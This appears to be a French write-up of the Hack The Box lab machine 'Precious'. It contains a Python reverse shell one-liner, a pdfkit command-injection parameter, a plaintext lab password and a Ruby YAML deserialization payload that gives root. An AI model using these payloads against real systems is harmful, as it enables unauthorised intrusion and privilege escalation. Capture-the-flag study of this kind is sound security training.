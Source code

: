 # Precious - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-27 18:47 EST
Nmap scan report for 10.10.11.189
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.69 seconds
```

Arrivée sur un site qui permet de transformer une page en pdf, les pages classiques tels que [google.com](http://google.com) ne marchent pas ni la page en elle même : Cannot load remote URL!

En hostant des fichiers sur sa machine on peut fetch en pdf sur le site, on va donc essayer de faire une reverse shell

[https://mhmdiaa.com/blog/exploiting-html-imports/](https://mhmdiaa.com/blog/exploiting-html-imports/)

Pas de possibilité d’inclure un fichier dans le pdf via javascript, on remarque alors que le pdf est généré avec pdfkit 0.8.6 qui est vulnérable et exploitable via le paramètre `?name=%20`commande``

en plus de l’url. On utilise un reverse shell python:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

On est connecté en tant que ruby et on obtient le user flag

Dans le dossier caché .bundle dans le home de ruby, on trouve le mot de passe de henry dans le fichier config:

```bash
"henry:Q3c1AqGHtoI0aXAYFH"
```

On peut alors se connecter en SSH !

Il y a un SETUID énoncé comme tel : 

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Le but est donc de trouver un moyen pour exploiter ce SETUID

On se place dans notre home et on crée un dependencies.yaml

Il s’agit de faire une attack sur la deserialisation yaml par ruby

[Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

```bash
Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.

Deserialization is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.
```

En suivant l’exemple du lien plus haut, on modifie le code pour obtenir un shell :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c '/bin/sh'"
         method_id: :resolve
```

On obtient un shell root et on obtient le flag !
